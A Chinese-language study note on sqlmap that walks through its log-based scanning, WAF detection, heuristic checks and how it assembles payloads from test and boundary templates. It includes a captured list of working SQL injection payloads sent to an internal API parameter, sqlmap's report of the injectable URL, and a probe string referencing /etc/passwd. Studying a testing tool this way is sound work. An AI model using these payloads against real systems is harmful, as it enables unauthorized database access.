

# 使用
从Burp或者WebScarab代理中获取日志

参数：-l 从文本中获取多个目标扫描

可以直接吧Burp proxy或者WebScarab proxy中的日志直接倒出来交给sqlmap来一个一个检测是否有注入。

---

```
log_format main '
=====================================================
=====================================================
$request
Cookie: $http_cookie
User-Agent: $http_user_agent
Content-Type: $content_type
Content-Length: $content_length
Host: $host

$request_body
=====================================================
';
```

- [Sqlmap联合Nginx实现“地毯式”检测网站SQL注入漏洞](https://cloud.tencent.com/developer/article/1036346)


---
# 做了啥子操作？

```
brandType=401&id=77
brandType=401&id=77
brandType=3681&id=77
brandType=401,(,",.))',&id=77
brandType=401'ewNhij<'">MqximG&id=77
brandType=401&id=8162
brandType=401&id=77,.'((.,(."
brandType=401&id=6611-6534
brandType=401&id=77.2fPlP
brandType=401&id=77'ffVRFy<'">XsvuSc
```

对id开放注入攻击

```
id=77&limit=20&page=1
id=77&limit=20&page=1
id=8739&limit=20&page=1
id=77,.",).'(.,&limit=20&page=1
id=77'OOerIg<'">odbsUK&limit=20&page=1
id=77) AND 2322=7663-- uEsi&limit=20&page=1
id=77) AND 3000=3000-- lVSy&limit=20&page=1
id=77) AND 1299=6921 AND (1828=1828&limit=20&page=1
id=77) AND 3000=3000 AND (5356=5356&limit=20&page=1
id=77)) AND 2927=1013 AND ((1285=1285&limit=20&page=1
id=77)) AND 3000=3000 AND ((2333=2333&limit=20&page=1
id=77))) AND 3202=5357 AND (((8471=8471&limit=20&page=1
id=77))) AND 3000=3000 AND (((9168=9168&limit=20&page=1
id=77 AND 8618=9900&limit=20&page=1
id=77 AND 3000=3000&limit=20&page=1
id=77 AND 7042=5956&limit=20&page=1

id=77 AND (SELECT 2*(IF((SELECT * FROM (SELECT CONCAT(0x716a6a7871,(SELECT (ELT(4269=4269,1))),0x7178626b71,0x78))s), 8446744073709551610, 8446744073709551610)))&limit=20&page=1
id=77 OR (SELECT 2*(IF((SELECT * FROM (SELECT CONCAT(0x716a6a7871,(SELECT (ELT(8760=8760,1))),0x7178626b71,0x78))s), 8446744073709551610, 8446744073709551610)))&limit=20&page=1
id=77 AND EXP(~(SELECT * FROM (SELECT CONCAT(0x716a6a7871,(SELECT (ELT(8641=8641,1))),0x7178626b71,0x78))x))&limit=20&page=1
id=77 OR EXP(~(SELECT * FROM (SELECT CONCAT(0x716a6a7871,(SELECT (ELT(2397=2397,1))),0x7178626b71,0x78))x))&limit=20&page=1
id=77 AND JSON_KEYS((SELECT CONVERT((SELECT CONCAT(0x716a6a7871,(SELECT (ELT(8518=8518,1))),0x7178626b71)) USING utf8)))&limit=20&page=1
id=77 OR JSON_KEYS((SELECT CONVERT((SELECT CONCAT(0x716a6a7871,(SELECT (ELT(3833=3833,1))),0x7178626b71)) USING utf8)))&limit=20&page=1
id=77 AND (SELECT 1418 FROM(SELECT COUNT(*),CONCAT(0x716a6a7871,(SELECT (ELT(1418=1418,1))),0x7178626b71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)&limit=20&page=1
id=(SELECT CONCAT(0x716a6a7871,(SELECT (ELT(8749=8749,1))),0x7178626b71))&limit=20&page=1

id=77&limit=20&page=1
id=77;SELECT SLEEP(5)#&limit=20&page=1
id=77;SELECT SLEEP(5)&limit=20&page=1
id=77;(SELECT * FROM (SELECT(SLEEP(5)))EdHl)#&limit=20&page=1
id=77;(SELECT * FROM (SELECT(SLEEP(5)))ZPpl)&limit=20&page=1
id=77;SELECT BENCHMARK(5000000,MD5(0x42466471))#&limit=20&page=1
id=77;SELECT BENCHMARK(5000000,MD5(0x4564766d))&limit=20&page=1
id=77 AND (SELECT 5609 FROM (SELECT(SLEEP(5)))svac)&limit=20&page=1
id=77 OR (SELECT 5180 FROM (SELECT(SLEEP(5)))KlbE)&limit=20&page=1
id=77 AND SLEEP(5)&limit=20&page=1
id=77 OR SLEEP(5)&limit=20&page=1
id=77 OR SLEEP(0)&limit=20&page=1
id=77 OR SLEEP(5)&limit=20&page=1
id=77 ORDER BY 1-- fWwV&limit=20&page=1
id=77 ORDER BY 3248-- DyhB&limit=20&page=1
id=77 ORDER BY 10-- ckVt&limit=20&page=1
id=77 ORDER BY 6-- agXS&limit=20&page=1
id=77 ORDER BY 8-- ljCO&limit=20&page=1
id=77 ORDER BY 7-- gRCq&limit=20&page=1

id=77 UNION ALL SELECT NULL,NULL,NULL,CONCAT(0x716a6a7871,0x474b676352535a476a5849456274487961427545526153616262645a556d66437279664d66614955,0x7178626b71),NULL,NULL-- LkWM&limit=20&page=1
id=77 UNION ALL SELECT CONCAT(0x716a6a7871,0x666e54546b7259714b63536c53567a6275775367414d455177674a4c4f494a517670694676486c75,0x7178626b71),NULL,NULL,NULL,NULL,NULL-- AUuu&limit=20&page=1
id=77 UNION ALL SELECT NULL,NULL,CONCAT(0x716a6a7871,0x56686d4b7a45524a786e646977705a53796976497946616e58647064464644635a716c63706b4d44,0x7178626b71),NULL,NULL,NULL-- feNc&limit=20&page=1
id=77 UNION ALL SELECT NULL,NULL,CONCAT(0x716a6a7871,0x56686d4b7a45524a786e646977705a53796976497946616e58647064464644635a716c63706b4d44,0x7178626b71),NULL,NULL,NULL UNION ALL SELECT NULL,NULL,CONCAT(0x716a6a7871,0x5a507853734d786a4362457a446c546b7764656974786748796154777675426742716f6741545342,0x7178626b71),NULL,NULL,NULL-- SgkL&limit=20&page=1
id=77 UNION ALL SELECT NULL,NULL,CONCAT(0x716a6a7871,0x56686d4b7a45524a786e646977705a53796976497946616e58647064464644635a716c63706b4d44,0x7178626b71),NULL,NULL,NULL FROM (SELECT 0 AS Oshv UNION SELECT 1 UNION SELECT 2 UNION SELECT 3 UNION SELECT 4 UNION SELECT 5 UNION SELECT 6 UNION SELECT 7 UNION SELECT 8 UNION SELECT 9 UNION SELECT 10 UNION SELECT 11 UNION SELECT 12 UNION SELECT 13 UNION SELECT 14) AS ktvq-- UwHx&limit=20&page=1
id=77 UNION ALL SELECT NULL,NULL,CONCAT(0x716a6a7871,(CASE WHEN (5052=5052) THEN 1 ELSE 0 END),0x7178626b71),NULL,NULL,NULL-- lTkY&limit=20&page=1


```

结果：sqlmap identified the following injection point(s) with a total of 51 HTTP(s) requests:

```
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=77 AND 3000=3000&limit=20&page=1

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: id=77 AND (SELECT 1418 FROM(SELECT COUNT(*),CONCAT(0x716a6a7871,(SELECT (ELT(1418=1418,1))),0x7178626b71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)&limit=20&page=1

    Type: time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind (SLEEP)
    Payload: id=77 OR SLEEP(5)&limit=20&page=1

    Type: UNION query
    Title: Generic UNION query (NULL) - 6 columns
    Payload: id=77 UNION ALL SELECT NULL,NULL,CONCAT(0x716a6a7871,0x56686d4b7a45524a786e646977705a53796976497946616e58647064464644635a716c63706b4d44,0x7178626b71),NULL,NULL,NULL-- feNc&limit=20&page=1


Target	URL	Place	Parameter	Technique(s)	Note(s)
http://172.16.8.4:8890/api/brand/product?id=77&limit=20&page=1	GET	id	BETU
```
---

sqlmap支持五种不同的**注入模式**：

- 基于布尔的盲注，即可以根据返回页面判断条件真假的注入；

- 基于时间的盲注，即不能根据页面返回内容判断任何信息，用条件语句查看时间延迟语句是否执行（即页面返回时间是否增加）来判断；

- 基于报错注入，即页面会返回错误信息，或者把注入的语句的结果直接返回在页面中；

- 联合查询注入，可以使用union的情况下的注入；

- 堆查询注入，可以同时执行**多条语句**的执行时的注入。

---


## checkWaf
checkWaf()是**检测是否有WAF**,检测方法是NMAP的[http-waf-detect.nse](http://seclists.org/nmap-dev/2011/q2/att-1005/http-waf-detect.nse)。

比如页面为index.php?id=1，那现在添加一个随机变量index.php?id=1&aaa=2，设置paoyload类似为`AND 1=1 UNION ALL SELECT 1,2,3,table_name FROM information_schema.tables WHERE 2>1-- ../../../etc/passwd`，如果没有WAF，页面不会变化，如果有WAF，因为payload中有很多**敏感字符**，大多数时候页面都会发生改变。
具体通过thirdparty/identywaf/identYwaf.py 去判断是哪个waf，原理应该是通过**正则去匹配特征**

## checkStability
checkStability 这个函数检查URL内容是否稳定，**在每个请求中两次请求相同的页面，并有一个小的延迟**，以假定它是稳定的。如果请求相同的页面时页面的内容不同，那么动态性可能取决于其他参数，比如实例字符串匹配

> 比较两次请求的延迟

## checkDynParam

`lib.controller.checks.checkDynParam`:
这个函数检查URL参数是否是动态的。如果是动态的，则**页面的内容不同**，否则动态性可能取决于另一个参数

## heuristicCheckSqlInjection

`lib.controller.checks.heuristicCheckSqlInjection`

进行**启发式 sql 注入检测**的前提条件是没有开启 nullConnection 并且页面并不是 heavilyDynamic。

首先conf.prefix和conf.suffix代表用户指定的前缀和后缀；在while '\'' not in randStr中，随机选择'"', '\'', ')', '(', ',', '.'中的字符，选10个，并且单引号要在。接下来生成一个payload，类似u'name=PAYLOAD_DELIMITER\__1)."."."\'."__PAYLOAD_DELIMITER'。其中PAYLOAD_DELIMITER\__1和__PAYLOAD_DELIMITER是随机字符串。请求网页后，调用parseFilePaths进行解析，**查看是否爆出绝对路径**，而wasLastResponseDBMSError是判断response中是否**包含了数据库的报错信息**。

## cross-site
检测 XSS 的方法其实就是**检查 "<'\">"，是否出现在了结果中**。作为扩展，我们可以在此检查**是否随机字符串还在页面中**，从而判断是否存在 XSS 的迹象。

## file inclusion (FI)
检测 FI（文件包含），就是检测结果中是否包含了 **include/require 等报错信息**，这些信息是通过特定正则表达式来匹配检测的。

## casting detected



---
# checkSqlInjection

lib.controller.checks.checkSqlInjection
如果DBMS还没有被指纹识别(通过简单的启发式检查或通过DBMS特定的负载)，并且检测到基于布尔的盲识别, 那么尝试使用一个简单的DBMS**特定**的**基于布尔的测试**: heuristicCheckDbms，来发现DBMS可能是什么。 找出后，会提示是否跳过测试其他的DBMS。然后，对于测试出来的DBMS，是否用所有的payload来测试。忽略level和risk选项


## heuristicCheckDbms
其实这个步骤非常简单，核心原理是利用简单的布尔盲注构造一个

```sql
(SELECT "[RANDSTR1]" [FROM_DUMMY_TABLE.get(dbms)] )="[RANDSTR1]"
(SELECT '[RANDSTR1]' [FROM_DUMMY_TABLE.get(dbms)] )='[RANDSTR2]'

```
这两个 Payload 的请求判断。
> 启发式检查，通过伪造不同数据库特性的两个随机数比较语句进行搜查

> 思想都是通过各种请求参数的伪造，和响应返回的判断进行sql注入的搜查。

---

## test和boundary组合生成payload

利用test和boundary生成payload的流程为:

- 循环遍历每一个test,
- 对某个test,循环遍历boundary
- 若boundary的where包含test的where值，并且boundary的clause包含test的clause值, 则boundary和test可以匹配
- 循环test的where值,结合匹配的boundary生成相应的payload


```
ptype 指 payload的类型
prefix payload之前要拼接哪些字符
suffix： payload之后拼接那些字符
clause 指示了使用的查询语句的类型,可以同时写多个，用逗号隔开。
where 如何添加 <prefix> <payload><comment> <suffix>，是否覆盖参数
```

clause和where 标签实际上是控制<test> 和 <boundary>能否拼接的，规则如下

当且仅当某个boundary元素的where节点的值包含test元素的子节点where的值(一个或多个)，clause节点的值包含test元素的子节点的clause的值(一个或多个)时候，该boundary才能和当前的test匹配生成最终的payload

## payload

```
stype=>查询类型
level=>和前面一样
risk=>风险等级，一共有三个级别，可能会破坏数据的完整性
clause=>指定为每个payload使用的SQL查询从句，与boundary中一致
where=>与boundary中一致
vector=>指定将使用的注入模版
payload=>测试使用的payload ,[RANDNUM]，[DELIMITER_START]，[DELIMITER_STOP]分别代表着随机数值与字符。当SQLMap扫描时会把对应的随机数替换掉,然后再与boundary的前缀与后缀拼接起来,最终成为测试的Payload。
common=>payload 之后，boundary 拼接的后缀suffix之前
char=>在union 查询中爆破列时所用的字符
columns=>联合查询测试的列数范围
response=>根据回显辨别这次注入的payload是否成功
comparison=>使用字符串作为payload执行请求，将响应和负载响应进行对比，在基于布尔值的盲注中有效
grep=>使用正则表达式去批结响应，判断时候注入成功，在基于错误的注入中有用
time=>在基于time的注入中等待结果返回的所需要的时间
detail=>下设三个子节点
```

最终的payload为

`where + boundary.prefix+test.payload + test.common + +boundary.suffix`

这两个文件实际上就是用来相互拼接的，而where和clause 决定着 boundary和test能否进行拼接，这两个文件的各个部分之间是多对多映射的关系


### where[多个值用,分隔]
添加完整payload<prefix> <payload><comment> <suffix>的地方, 这和boundary子节点where的含义是一致的

```
1: Append the string to the parameter original value
2: Replace the parameter original value with a negative random integer value and append our string
3: Replace the parameter original value with our string
```

### response
从**响应中识别是否成功注入**

- comparison(布尔盲注)：应用比较算法，比较两次请求响应的不同，一次请求的payload使用request子节点中的payload, 另一次请求的payload使用response子节点中的comparison

- grep(报错注入)：响应中匹配的正则表达式

- time(**时间盲注和堆叠注入**)

- 响应返回之前等待的时间(单位为秒)

- union(union注入): 调用 unionTest()函数。猜列数、order by


`lib/controller/checks.py:137`

梳理一下思路，我们最终会发送给目标服务器的 payload，首先是需要闭合的 ( boundaries.xml )，然后从对应的注入类型的各种测试模板中提取相应的参数(比如： boolean_blind.xml )，然后在 queries.xml 中取出相应的表达式，最后通过 tamper 的渲染，输出我们最终的 payload，也就是我们的 -v3 参数。


- [sqlmap源码解析之test和boundary组合生成payload](http://www.beesfun.com/2017/03/30/sqlmap%E6%BA%90%E7%A0%81%E8%A7%A3%E6%9E%90%E4%B9%8Btest%E5%92%8Cboundary%E7%BB%84%E5%90%88%E7%94%9F%E6%88%90payload/)
- [SQLMAP进阶使用](http://drops.xmd5.com/static/drops/tips-5254.html)
- [sqlmap用户手册](http://drops.xmd5.com/static/drops/tips-143.html)
- [SQLMAP源码分析Part1:流程篇](http://drops.xmd5.com/static/drops/tips-7301.html)
- [超详细 SQLMap 使用攻略及技巧分享](https://www.freebuf.com/sectool/164608.html)
- [sqlmap 内核分析 III: 核心逻辑](https://zhuanlan.zhihu.com/p/45291193)
- [Sqlmap进阶用法：定制payload加速boolean-based注入](https://www.freebuf.com/articles/71652.html)
- [从sqlmap源码看如何自定义payload](https://www.anquanke.com/post/id/188173)
- [sqlmap payload修改之路（下）](https://4hou.win/wordpress/?p=15178)
- [sqlmap源码解析（六）sqlmap是如何检测注入的](https://x.hacking8.com/post-255.html)
